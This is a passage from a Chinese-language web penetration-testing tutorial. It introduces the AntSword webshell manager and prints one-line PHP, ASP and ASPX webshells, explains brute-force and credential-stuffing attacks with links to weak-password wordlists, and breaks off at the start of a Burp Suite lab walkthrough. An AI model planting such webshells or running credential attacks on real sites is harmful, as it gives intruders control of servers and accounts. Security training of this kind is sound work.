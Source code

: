 - 中国蚁剑：[中国蚁剑](https://github.com/AntSwordProject/antSword/blob/master/README_CN.md)是一款开源的跨平台网站管理工具，它主要面向于合法授权的渗透测试安全人员以及进行常规操作的网站管理员，只要网站上传一句话木马，即可连接到web服务器。
php：<?php @eval($_post['ant']);?>
asp：<%eval request ("ant")%>
aspx：<%@ Page Language="Jscript"%> <%eval(Request.Item["ant"],"unsafe");%>

### Brute Force（暴力破解）
暴力破解，又叫撞库、穷举，使用大量的字典逐个在认证接口尝试登录，理论上，只要字典足够强大，破解总是会成功的。
阻止暴力破解的最有效方式是设置复杂度高的密码（英文字母大小写、数字、符号混合）。

而如果你的字典是从某网站泄露出来的，你使用它试图登陆其他网站，就便是撞库。撞库攻击的成功率高于暴力破解，因为你在A网站的用户名、密码通常和B网站的用户名、密码一致。

常用的开源的弱用户名密码字典有：
https://github.com/fuzz-security/SuperWordlist
https://github.com/NS-Sp4ce/Dict
https://github.com/mysticbinary/weakpass

#### Low
查看low代码
![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/181bd3a40e66de627ac0a1f47be3ab1f.png)
打开Burp Suite proxy面板，options打开8080端口，默认是开的
![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/808028b448d1193fd692d10d1274081e.png)
浏览器SwitchyOmega新增个代理